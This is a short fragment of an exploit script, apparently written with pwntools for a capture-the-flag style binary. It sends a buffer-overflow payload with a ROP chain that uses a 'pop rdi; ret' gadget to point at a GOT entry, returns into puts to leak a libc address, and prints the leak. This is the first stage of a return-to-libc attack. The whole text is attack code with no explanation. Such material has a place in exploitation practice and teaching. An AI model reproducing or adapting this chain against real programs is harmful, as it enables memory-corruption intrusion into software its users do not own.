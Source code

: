 io = start()
io.recvuntil("Hello\n")
payload = fit({
    40: 0x0000000000400683, # 0x0000000000400683: pop rdi; ret; 
    48: 0x0000000000601018, # point RDI to GOT table to leak libc
    56: 0x00000000004005f5, # ret back to puts() / gets() overflow
    }, length=128)
io.sendline(payload)
print("libc: " + io.recvline())